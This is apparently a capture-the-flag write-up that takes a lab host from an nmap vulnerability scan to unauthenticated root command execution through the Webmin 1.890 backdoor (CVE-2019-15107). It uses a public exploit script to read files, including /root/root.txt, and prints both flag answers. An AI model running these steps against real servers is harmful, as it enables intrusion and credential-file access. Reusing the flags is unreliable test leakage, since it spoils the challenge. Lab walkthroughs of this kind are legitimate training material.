 # Source


1. Enumerate with nmap. We find 2 ports open - 22 and 10000 - with OpenSSH and Webmin running respectively
```
root@ip-10-10-238-190:~# sudo nmap -sS -A -script=vuln 10.10.78.104

Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-04 22:13 GMT
Nmap scan report for ip-10-10-78-104.eu-west-1.compute.internal (10.10.78.104)
Host is up (0.00048s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-litespeed-sourcecode-download: 
| Litespeed Web Server Source Code Disclosure (CVE-2010-2333)
| /index.php source code:
| <h1>Error - Document follows</h1>
|_<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-78-104.eu-west-1.compute.internal:10000/'>https://ip-10-10-78-104.eu-west-1.compute.internal:10000/</a> instead.<br></p>
|_http-majordomo2-dir-traversal: ERROR: Script execution failed (use -d to debug)
| http-phpmyadmin-dir-traversal: 
|   VULNERABLE:
|   phpMyAdmin grab_globals.lib.php subform Parameter Traversal Local File Inclusion
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2005-3299
|       PHP file inclusion vulnerability in grab_globals.lib.php in phpMyAdmin 2.6.4 and 2.6.4-pl1 allows remote attackers to include local files via the $__redirect parameter, possibly involving the subform array.
|       
|     Disclosure date: 2005-10-nil
|     Extra information:
|       ../../../../../etc/passwd :
|   <h1>Error - Document follows</h1>
|   <p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-78-104.eu-west-1.compute.internal:10000/'>https://ip-10-10-78-104.eu-west-1.compute.internal:10000/</a> instead.<br></p>
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
|_      http://www.exploit-db.com/exploits/1244/
|_http-server-header: MiniServ/1.890
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
MAC Address: 02:5B:1D:A9:42:D3 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=1/4%OT=22%CT=1%CU=36261%PV=Y%DS=1%DC=D%G=Y%M=025B1D%TM
OS:=61D4C6CC%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)S
OS:EQ(SP=FE%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M2301S
OS:T11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)WIN
OS:(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F50
OS:7%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3
OS:(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=
OS:Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%R
OS:IPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.48 ms ip-10-10-78-104.eu-west-1.compute.internal (10.10.78.104)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.18 seconds
```

2. Visit the Webmin page on the web browser `http://<ip address>:10000` and we're redirected to a login page. Let's see if there are any known vulnerabilities for the version of Webmin we're running, `1.890`. Google `webmin exploit` and we find many results. The first result for 1.890 is [this](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE) and links to an [article](https://medium.com/@0xstain/webmin-1-890-exploit-unauthorized-rce-cve-2019-15107-23e4d5a9c3b4). After reading the article we find that the version of Webmin our target is running contains a vulnerability that allows for RCE, and the python script in the git repository will let us exploit it.

3. Clone the repository `git clone https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE.git`. Navigate to it and run the python script with `python3 webmin-1.890_exploit.py HOST PORT COMMAND`. Running `python3 webmin-1.890_exploit.py <ip address> 10000 "id"` tells us that we're logged in as root, so we can find both flags easily. To find user.txt use `python3 webmin-1.890_exploit.py <ip address> 10000 "find / -name user.txt 2> /dev/null"` and then print out its contents with `python3 webmin-1.890_exploit.py <ip address> 10000 "cat /home/dark/user.txt"` to get `THM{SUPPLY_CHAIN_COMPROMISE}`. Finally, since we're logged in as root - and assuming that root.txt is in the `/root` directory - we can use `python3 webmin-1.890_exploit.py <ip address> 10000 "cat /root/root.txt"` to get `THM{UPDATE_YOUR_INSTALL}`
